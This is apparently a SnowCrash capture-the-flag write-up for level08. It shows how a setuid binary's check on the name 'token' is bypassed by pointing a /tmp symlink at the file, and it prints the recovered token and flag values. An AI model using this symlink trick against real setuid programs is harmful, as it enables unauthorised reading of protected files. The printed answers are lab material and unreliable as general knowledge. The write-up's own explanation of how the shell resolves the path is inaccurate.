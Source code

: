 # level08

## Hint

There are two files at the root of our home:

```shell-session
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

`level08` is a binary that reads as follows when we launch it:

```shell-session
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

But launching it on our token file does nothing for us:

```shell-session
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Our goal is therefor to find a way to read the contents of the token file.

## symlink

To do that we should feed to the executable a path that will be resolved to the file we are trying to access.

```shell-session
level08@SnowCrash:~$ cd /tmp
level08@SnowCrash:/tmp$ ln -s ../home/user/level08/token getflag
level08@SnowCrash:~$ ./level08 /tmp/getflag
quif5eloekouj29ke0vouxean
```

Meaning:
When the shell evaluates `/tmp/getflag` the executable receives `../home/user/level08/token`.

```shell-session
level08@SnowCrash:~$ ls -l /tmp/getflag
lrwxrwxrwx 1 level08 level08 26 May  6 11:32 /tmp/getflag -> ../home/user/level08/token
```

# getflag

```shell-session
 λ Securite/snowcrash42/level08 ssh flag08@192.168.152.166 -p 4242            main :: 23h :: ⬡
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.152.166 2a01:cb06:802f:11c0:69b1:d2eb:a6ed:facd 2a01:cb06:802f:11c0:a00:27ff:fef7:2e52
flag08@192.168.152.166's password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```
